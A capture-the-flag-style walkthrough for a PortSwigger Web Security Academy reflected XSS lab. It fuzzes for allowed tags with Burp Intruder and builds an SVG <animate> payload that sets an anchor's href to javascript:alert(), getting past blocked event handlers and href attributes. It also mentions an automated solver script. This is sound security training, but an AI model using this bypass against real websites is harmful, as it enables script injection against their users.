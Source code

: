 # XSS LAB 27 - Reflected XSS with event handlers and href attributes blocked

## Manual Solution


### 1. Before you start:
- Some useful articles:
    - [MDN Web Docs: Element.animate](https://developer.mozilla.org/en-US/docs/Web/API/Element/animate)
    - [W3Schools: SVG Animation](https://www.w3schools.com/graphics/svg_animation.asp)
    - [MDN Web Docs: SVG `<text>` Element](https://developer.mozilla.org/en-US/docs/Web/SVG/Reference/Element/text)
    - [W3Schools: Introduction to SVG](https://www.w3schools.com/graphics/svg_intro.asp)
    
### 2. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 3. Determining unblocked tags
- Open Burp Suite.
- Perform an regular search on the target website and capture the search request in Burp Suite. Then send the request to `Intruder`.
- Modify the search parameter like this `/?search=<§§`
- Visit the following URL and copy the list of tags: [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).
- Add the following payload to the payload list in Burp Suite:
![payload](./images/Payload.png)
- Paste the tags you copied into the payload list. Then click `Start attack`.
- The tags that return a 200 OK status code are considered unblocked.
![tags](./images/Tags.png)

### 4. Solving the lab.
- In this lab We can use the `svg` tag. Perform a search with the following payload `<svg> </svg>` and notice that the tag is unblocked.
- Next, try creating an `<a>` tag inside the `<svg>` tag. Use the following payload: `<svg><a>Click Me</a></svg>`. If you inspect the page, you will see the following HTML in the DOM 
```html 
<svg> <a>click me </a> </svg>
``` 
- However the Click Me text is not visible on the page. This is because in SVG text content must be wrapped inside a `<text>` element.
- Try the following payload: `<svg> <a> <text x=30 y=30 > Click Me </text> </a> </svg>` The HTML DOM becomes: 
```html 
<svg> 
    <a> 
        <text x="50" y="50"> click me </text> 
    </a> 
</svg>
```
- Now we can use the `<animate>` tag to modify the href attribute of the `<a>` tag.
- Perform a search with the following payload: 
```html
<svg> 
    <a> 
        <animate attributeName=href values=javascript:alert() /> 
        <text x=30 y=30 > Click Me </text> 
    </a>
</svg>
```
- We place the `<animate>` tag inside the `<a>` tag because the `<animate>` element targets its parent tag.
If we don't place it inside the `<a>` tag we would need to use the `xlink:href` attribute but in this lab it is not allowed.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_27.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```